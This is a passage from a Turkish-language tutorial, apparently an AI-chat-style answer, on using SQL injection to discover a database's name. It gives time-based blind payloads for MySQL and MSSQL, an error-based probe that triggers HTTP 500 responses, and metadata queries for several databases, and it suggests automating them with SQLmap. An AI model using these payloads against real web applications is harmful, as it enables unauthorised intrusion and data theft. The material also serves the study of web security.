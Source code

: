✅ Eğer sorgu 5 saniye bekliyorsa, veritabanı adı test_db olabilir.
Bunu karakter karakter test edebilirsin:
sql
```sql
' AND IF(substring(database(),1,1)='t', SLEEP(5), 0)-- -
```

MSSQL için:
sql
```sql
' IF(DB_NAME()='test_db') WAITFOR DELAY '0:0:5'-- -
```

📌 Bu yöntemleri python scripti veya SQLmap ile de otomatikleştirebilirsin.

6️⃣ Metadata Sorguları ile Veritabanı İsmini Öğrenme
Bazı veritabanlarında metadata tabloları mevcuttur ve bunları kullanarak veritabanı adını görebilirsin.
MySQL için:
sql
```sql
SELECT schema_name FROM information_schema.schemata;
```

MSSQL için:
sql
```sql
SELECT name FROM master..sysdatabases;
```

PostgreSQL için:
sql
```sql
SELECT datname FROM pg_database;
```



7️⃣ HTTP Yanıt Kodlarını Kullanarak Veritabanı İsmini Öğrenme
Eğer bir web uygulaması belirli hatalara farklı HTTP yanıt kodlarıyla cevap veriyorsa, yanıt kodları ile veri sızdırabilirsin.
sql
```sql
' AND IF(database()='test_db', 1/0, 1)-- -
```

✅ Eğer 500 Internal Server Error döndürürse, veritabanı adı test_db olabilir.





SQL enjeksiyonuyla veritabanı adını öğrenme konusunda daha derine inmek, genellikle çok daha karmaşık teknikler kullanmayı gerektirir. Bu yöntemler, yalnızca teknik bilgi gerektirmekle kalmaz, aynı zamanda hedef sistemin yapılandırmasına ve mevcut güvenlik önlemlerine de bağlıdır. İşte daha derinlemesine SQL enjeksiyonuna dayalı veritabanı keşfi için kullanılan gelişmiş teknikler:

1️⃣ Blind SQL Injection (Kör SQL Enjeksiyonu) İleri Düzey Kullanımı
Blind SQL Injection, hata mesajları verilmediğinde kullanılır ve genellikle sayfa yanıtlarındaki zamanlama farkları veya sayfa değişiklikleri üzerinden bilgi sızdırılır. Eğer veritabanı adı hakkında bilgi edinmek istiyorsan, aşağıdaki stratejiler kullanılır:
Zaman Tabanlı Blind Injection (Time-Based Blind SQLi)
Eğer sistem herhangi bir hata mesajı döndürmüyorsa, sistem yanıtlarının zamanlamalarını inceleyerek veritabanı adını öğrenebilirsin.
MySQL Örneği:
Veritabanı adı "test_db" olduğunu doğrulamak için şu sorguyu kullanabilirsin:
sql
```sql
' AND IF(database() = 'test_db', SLEEP(5), 0)-- -
```
